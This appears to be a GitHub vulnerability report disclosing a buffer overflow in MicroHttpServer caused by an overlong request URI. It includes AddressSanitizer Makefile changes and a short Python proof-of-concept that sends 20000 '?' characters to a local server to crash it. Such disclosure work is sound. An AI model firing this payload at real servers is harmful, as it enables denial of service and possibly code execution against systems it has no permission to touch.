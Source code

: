 The overflow happens at roughly 15330 bytes in the request URI when reading from the network socket.  Similar to [issue 5](https://github.com/starnight/MicroHttpServer/issues/5), any server or embedded application that utilizes MicroHttpServer is potentially at risk of a Denial of Service or remote code execution, depending on the implementation.  I've included reproduction steps in the following sections.


### Makefile Modifications

The following modifications were made to the Makefile to compile the server with address sanitizer and debug symbols.  The purpose of this is to track and verify the location of the global buffer overflow:


```
PROJ=microhttpserver

CC=gcc
INCLUDES=-Ilib
DEFS=-D_PARSE_SIGNAL_ -D_PARSE_SIGNAL_INT_ -DDEBUG_MSG -DENABLE_STATIC_FILE=1
CFLAGS=-Os -Wall -fsanitize=address -g
SRCS=main.c app.c lib/server.c lib/middleware.c

all:
	$(CC) $(SRCS) $(INCLUDES) $(DEFS) $(CFLAGS) -o $(PROJ)

clean:
	rm -rf *.out *.bin *.exe *.o *.a *.so *.list *.img test build $(PROJ)
```

### Proof of Concept  Python3 Script

Save the following script to a file named poc.py:

```
#!/usr/bin/env python3

import socket

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("localhost", 8001))
sock.send(b"GET "+b"?"*20000+b"HTTP/1.1\r\nHost: localhost:8080\r\nUser-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8\r\nAccept-Language: en-US,en;q=0.5\r\nAccept-Encoding: gzip, deflate\r\nDNT: 1\r\nConnection: close\r\nUpgrade-Insecure-Requests: 1\r\nSec-Fetch-Dest: document\r\nSec-Fetch-Mode: navigate\r\nSec-Fetch-Site: none\r\nSec-Fetch-User: ?1\r\n\r\n\r\n")
response = sock.recv(4096)
sock.close()
```

### Starting MicroHttpServer

```
$ ./microhttpserver 
```
